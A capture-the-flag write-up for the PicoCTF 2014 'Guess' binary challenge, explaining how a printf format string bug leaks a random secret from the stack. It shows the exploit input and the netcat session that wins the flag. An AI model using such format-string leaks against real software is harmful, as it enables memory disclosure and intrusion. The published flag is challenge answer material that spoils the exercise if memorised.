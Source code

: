 # Pico CTF 2014 : Guess

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>This program requires you to guess a random 32-bit number! Sounds difficult, right? There is a server running at vuln2014.picoctf.com:4546, and the source can be found [here](guess.c).

**Hint:**
>The only way to combat secure randomness is to leak the secret.

## Write-up

Looking at the source, there are a few important lines.
```
fgets(name, sizeof(name), stdin);

    printf("Welcome to the guessing game, ");
    printf(name);
    printf("\nI generated a random 32-bit number.\nYou have a 1 in 2^32 chance
of guessing it. Good luck.\n");

    printf("What is your guess?\n");
    scanf("%d", &guess);

    if(guess == secret){
```
 
the line that has `printf(name);` is a format string vulnerability. This means
that we can read arbitrary data off of the stack, AKA leak `secret`. Also,
`scanf()` is given the `%d` modifier, meaning we need to supply the guess in
decimal form. It is crucuial to understand that while the value of `secret` is
random, it's location relative to everything else in memory is not. By
supplying some `%d`s to the program, we will get the nearby memory values, one
of which is `secret`. After some trial and error, we find that the fourth value
is `secret`!

```
 nc vuln2014.picoctf.com 4546
Hello! What is your name?
%d %d %d %d
Welcome to the guessing game, 32 -143098848 159907848 381394296

I generated a random 32-bit number.
You have a 1 in 2^32 chance of guessing it. Good luck.
What is your guess?
381394296
Wow! You guessed it!
Your flag is: leak_the_seakret
```






## Other write-ups and resources

* <http://ehsandev.com/pico2014/binary_exploitation/guess.html>
* <https://ctf-team.vulnhub.com/picoctf-2014-guess/>
